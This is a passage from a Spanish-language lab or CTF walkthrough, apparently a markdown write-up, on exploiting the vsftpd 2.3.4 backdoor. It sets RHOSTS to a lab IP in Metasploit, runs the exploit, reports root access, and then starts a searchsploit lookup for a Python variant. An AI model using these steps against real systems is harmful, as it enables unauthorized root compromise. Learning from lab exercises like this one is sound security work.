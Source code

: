 
Modificamos las opciones necesarios. En este caso solo debemos especificar la IP de la máquina vicitma.
```
set RHOSTS 172.17.0.2
```

<p align="center">
    <img src="../img/Pasted_image_20250101100727.png" width="500">
</p>


Ejecutamos el exploit.
```
exploit
```

<p align="center">
    <img src="../img/Pasted_image_20250101100928.png" width="500">
</p>

Obtuvimos el usuario `root`.

---


#### Python

Como vimos anteriormente, también teníamos un módulo en `python`. Vamos a realizar la explotación con ese módulo. Si volvemos a buscar los exploit relacionados con las versión del protocolo `FTP`, nos indica.
```
searchsploit vsftpd 2.3.4
```

<p align="center">
    <img src="../img/Pasted_image_20250101100129.png" width="500">
</p>
